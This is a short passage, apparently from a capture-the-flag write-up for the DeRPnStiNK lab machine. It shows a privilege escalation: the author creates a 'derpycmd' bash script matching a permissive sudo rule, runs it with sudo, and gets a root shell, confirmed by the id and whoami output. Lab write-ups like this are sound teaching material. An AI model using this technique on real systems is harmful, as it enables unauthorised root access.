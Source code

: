 The directory /```home/mrderp/binaries ``` did not exist so i created one. Then I created file ```derpycmd``` which executes bash. The filename has to start with ```derpy*``` since that is what the user is allowed to run sudo with.

```bash
mrderp@DeRPnStiNK:~/binaries$ pwd
/home/mrderp/binaries
mrderp@DeRPnStiNK:~/binaries$ ls
derpycmd
mrderp@DeRPnStiNK:~/binaries$ cat derpycmd 
#!/bin/bash
bash
```

Finally executing bash with sudo privilege to switch over to root.

```bash
mrderp@DeRPnStiNK:~/binaries$ sudo /home/mrderp/binaries/derpycmd 
root@DeRPnStiNK:~/binaries# id
uid=0(root) gid=0(root) groups=0(root)
root@DeRPnStiNK:~/binaries# whoami
root
root@DeRPnStiNK:~/binaries# 
```
